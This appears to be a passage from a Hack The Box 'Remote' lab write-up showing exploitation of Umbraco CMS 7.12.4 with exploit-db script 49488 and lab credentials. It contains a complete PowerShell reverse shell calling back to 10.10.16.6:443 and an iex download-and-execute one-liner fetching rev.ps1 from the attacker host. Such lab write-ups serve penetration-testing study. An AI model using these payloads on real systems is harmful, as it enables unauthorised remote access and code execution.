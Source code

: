 
First, I download the exploit: (In addition to this, I renamed the exploit)

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/remote]
└─$ searchsploit -m aspx/webapps/49488.py
  Exploit: Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49488
     Path: /usr/share/exploitdb/exploits/aspx/webapps/49488.py
File Type: Python script, ASCII text executable, with very long lines

Copied to: /hackthebox/oscp-prep/remote/49488.py

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/remote]
└─$ mv 49488.py umbraco-rce.py
```

It's time to execute the script, I will first try the whoami command, which should always work:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/remote]
└─$ python3 umbraco-rce.py -u admin@htb.local -p baconandcheese -i http://remote.htb -c whoami
iis apppool\defaultapppool
```

It took me some time to figure out how to execute powershell commands, but here is the method that worked for me (quotes are not necessary for single word commands):

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/remote]
└─$ python3 umbraco-rce.py -u admin@htb.local -p baconandcheese -i http://remote.htb -c powershell -a "whoami"
iis apppool\defaultapppool
```

I can try to get a reverse shell using this little script:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.16.6",443)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
	$sendback = (iex $data 2>&1 | Out-String )
	$sendback2 = $sendback + "PS " + (pwd).Path + "> "
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
	$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()
}
$client.Close()
```

I start a python web server and execute the script with powershell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/remote]
└─$ python3 umbraco-rce.py -u admin@htb.local -p baconandcheese -i http://remote.htb -c powershell -a "iex(new-object net.webclient).downloadstring('http://10.10.16.6/rev.ps1')"
```
